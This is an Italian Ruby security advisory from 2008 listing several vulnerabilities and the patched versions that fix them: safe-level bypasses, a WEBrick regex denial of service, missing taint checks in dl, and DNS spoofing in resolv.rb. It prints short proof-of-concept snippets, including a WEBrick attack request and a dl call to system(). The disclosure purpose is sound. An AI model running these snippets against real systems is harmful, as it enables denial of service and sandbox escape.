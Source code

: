 ```yaml
---
layout: news_post
title: "Multiple vulnerabilità in Ruby"
author: "Fabio Cevasco"
lang: it
---
```


 Multiple vulnerabilità sono state scoperte in Ruby. Si raccomanda di eseguire un aggiornamento alle ultime versioni. ## Dettagli

Le seguenti vulnerabilità sono state scoperte.

### Molteplici vulnerabilità nel safe level

Molteplici vulnerabilità nel \_safe level\_ sono state scoperte:

* untrace\_var è permesso in safe level 4.

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAME può essere moficato in safe level 4.

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* Metodi non sicuri possono essere chiamati in safe level 1-3.

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # ritorna la dimensione sbagliata
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # o 2, o 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # Stampa una stringa la cui lunghezza è inferiore a 20
      end

* Syslog operations are permitted at safe level 4.

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

Queste vulnerabilità sono state notificate da Keita Yamaguchi.

### Vulnerabilità DoS in WEBrick

WEBrick::HTTP::DefaultFileHandler è soggetto a richieste che occupano
tempi esponenziali dovute a un\'espressione regolare retroattiva in
WEBrick::HTTPUtils.split\_header\_value.

Server vulnerabile:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

Attack:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

&amp;Egrave; possibile che questa richiesta abbia bisogno di un tempo
infinito.

Questa vulnerabilità è stata notificata da Christian Neukirchen.

### Mancanza di controlli di \_taintness\_ in dl

dl non controlla la \_taintness\_, e questo potrebbe permettere la
chiamata di funzioni pericolose.

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

Questa vulnerabilità è stata notificata da sheepman.

### Vulnerabilità di spoofing del DNS spoofing in resolv.rb

resolv.rb permette ad utenti remoti di mascherare le risposte del DNS.
Questo rischio può essere ridotto randomizzando le ID di transazione e
le porte sorgenti, così resolv.rb è stato corretto per fare proprio
questo.

* vedi anche: [CVE-2008-1447][1]

Questa vulnerabilità è stata notificata da Tanaka Akira.

## Versioni di Ruby vulnerabili

serie 1.8
: * 1\.8.5 e precedenti
  * 1\.8.6-p286 e precedenti
  * 1\.8.7-p71 e precedenti

serie 1.9
: * r18423 e precedenti

## Soluzione

serie 1.8
: Eseguire l\'agggiornamento a 1.8.6-p287 o 1.8.7-p72.
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

serie 1.9

: Eseguire un checkout dell\'ultima versione tramite Subversion.

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Nota che un pacchetto che corregge questa vulnerabilità potrebbe essere
già disponibile attraverso il tuo software di package management.

## Crediti

Un sincero ringraziamento a Keita Yamaguchi, Christian Neukirchen,
sheepman, e Tanaka Akira per aver notificato questi problemi al Ruby
Security Team.

## Cambiamenti

* 2008-08-08 12:21 +09:00 Corretto il numero di revisione di Ruby 1.9.
* 2008-08-11 11:23 +09:00 Corretto il patchlevel di Ruby 1.8. vedi
  [L\'annuncio del rilascio di Ruby 1.8.7-p72 and 1.8.6-p287][4]



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447 
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz 
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz 
[4]: /it/news/2008/08/11/ruby-1-8-7-p72-and-1-8-6-p287-released/ 
